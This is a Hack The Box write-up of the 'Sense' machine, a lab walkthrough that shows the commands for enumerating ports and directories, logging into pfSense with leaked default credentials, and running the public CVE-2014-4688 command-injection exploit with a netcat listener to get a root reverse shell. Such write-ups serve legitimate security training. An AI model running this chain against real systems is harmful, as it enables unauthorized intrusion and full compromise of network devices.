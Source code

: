 # Sense

**OS:** Linux

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/sense)  [2](https://app.hackthebox.com/machines/Sense)

**Machine ip:** 10.10.10.60

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e379c135-5e25-4ae9-abb1-13ee23189ff6)


## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.60 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.60`

+ 2 ports are open which are 80 and 443:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6749553f-08d1-460f-aad6-1fbb09ae51ea)

+ Port 80 redirects to port 443 so we really only have one port to enumerate.
+ Navigate to `https://10.10.10.60/`
+ pfsense login panel.
+ Try [pfsense](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) default username and password.
+ Try brute force trial and errors.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d249333a-0934-4e18-a2ff-d8eeb457d36c)

+ No works, and continue with directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60/ -k -n -x html,php,txt -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9a9704e1-f08a-4337-8340-8807b3a9efb4)

+ **system-users.txt** and changelog.txt are interesting, and check them out.
+ Navigate to `https://10.10.10.60/system-users.txt` and `https://10.10.10.60/changelog.txt`
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6601d0fd-d8aa-440c-b85e-eb1598afba6e)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd931495-72f9-4c8f-b47b-d3f125ba4868)

+ Login pfsense using credentials `rohit`:`pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/97eb08bc-2825-44a1-a5ba-897c186d2689)

+ See that version is **2.1.3**


## Privilege Escalation

+ View any vulnerabilities that pfsense is associated with : `searchsploit pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d1945b44-4ad0-402f-add2-f2206ebf4ad8)

+ For more perspective: https://sploitus.com

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0e8107b4-dc87-45ac-b91e-5f8fdbf561ee)

+ pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection: [CVE-2014-4688](https://www.exploit-db.com/exploits/43560)
+ Check the vulnerability what's doing.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ff6726fb-505d-4fd4-90a8-460f9d7a5549)

+ Transfer the exploit: `searchsploit -m 43560`
+ Start listener: `nc -lnvp 5555`
+ `python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 5555 --username rohit --password pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d6f35b34-e308-432b-8f48-3756e6010eba)

+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/35e0d755-020d-4e1f-92e6-e8405893a3c0)


# References & Alternatives
+ https://vvmlist.github.io/#sense
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/sense-writeup-w-o-metasploit
+ https://0xdf.gitlab.io/2021/03/11/htb-sense.html
+ https://benheater.com/hackthebox-sense/
+ https://xavilok.es/posts/Sense.php
+ https://ethicalhacs.com/sense-hackthebox-walkthrough/
+ https://v3ded.github.io/ctf/htb-sense
+ https://medium.com/@andr3w_hilton/htb-sense-walkthrough-6236970644c1

